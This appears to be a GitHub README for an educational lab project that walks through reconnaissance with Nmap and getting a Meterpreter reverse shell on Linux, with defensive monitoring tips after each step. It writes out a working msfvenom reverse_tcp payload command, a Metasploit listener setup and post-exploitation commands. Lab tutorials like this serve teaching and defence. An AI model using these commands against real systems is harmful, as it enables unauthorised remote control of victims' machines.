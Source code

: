 # 🛠️ Meterpreter Session Exploitation Project — Instructions (Conceptual & Defensive Focus)

This file provides a **step-by-step walkthrough** of the project in a **safe, educational environment**.
⚠️ **Important:** All instructions are conceptual or run locally on your own machine. Do **not** target unauthorized systems.

---

## 📦 Step 0: Prerequisites

Make sure you have:

*   Linux environment (Ubuntu/Debian recommended)
*   **Nmap** for service scanning
*   **Metasploit Framework** for conceptual payload generation
*   Terminal/CLI familiarity

---

## 0.1 Install Nmap

```bash
sudo apt update
sudo apt install nmap -y
```

## 0.2 Verify Installation

```bash
nmap --version
```

Expected output (example):

```less
Nmap version 7.93 ( https://nmap.org )
```

## 🔎 Step 1: Reconnaissance — Nmap Service Scan

Scan your local system to see open ports and service versions:

```bash
nmap -sV -p- "VICTIM'S IP ADDRESS"
```

*   `-sV` → Detect service/version
*   `-p-` → Scan all ports

Example Output (conceptual):

| Port | Service | Version    | Defensive Notes                     |
| :--- | :------ | :--------- | :---------------------------------- |
| 22   | ssh     | OpenSSH 8.2 | Monitor for brute-force attempts    |
| 80   | http    | Apache 2.4 | Check patch level and misconfigs    |

**Defensive Tip:** Track log events for unusual port scans or repeated connections.

## 🖥️ Step 2: Generate Conceptual Payload

Objective: Understand how attackers deliver a reverse shell using `msfvenom`.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST="YOUR IP ADDRESS" LPORT=4444 -f elf -o shell64.elf
chmod +x shell64.elf
```

*   `-p` → Payload type
*   `-f elf` → Linux executable
*   `LHOST`/`LPORT` → Listener host/port

**Defensive Tip:** Watch for new executables in user directories (`/home/*/`) or temp folders. Check permissions:

```bash
ls -lah /home/*/
find /tmp/ -type f -perm /111
```

## 🔄 Step 3: Set Up Metasploit Listener

Objective: Prepare the listener (C2) to receive the payload (conceptual).

```bash
msfconsole
```

Configure handler:

```bash
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST "YOUR IP ADDRESS"
set LPORT 4444
run
```

**Defensive Tip:** Monitor processes listening on unexpected ports and alert on unknown network traffic.

## 🚀 Step 4: Simulate Payload Execution

Simulate victim execution:

```bash
./shell64.elf
```

**Defensive Notes:**

Check processes created by unprivileged users:

```bash
ps aux --sort=start_time | tail -n 20
```

Inspect system logs:

```bash
journalctl -xe
tail -f /var/log/auth.log
```

## 🧩 Step 5: Post-Exploitation Exploration (Conceptual)

Attacker perspective (conceptual commands):

```text
getuid   # Who am I?
sysinfo  # System information
pwd      # Current directory
```

Defensive perspective:

Detect unusual processes or parent-child relationships:

```bash
ps -ef --forest
lsof -i
```

⚠️ **Disclaimer**
This project is strictly educational and defensive.
Do not use these techniques outside controlled environments where you have explicit permission.
```
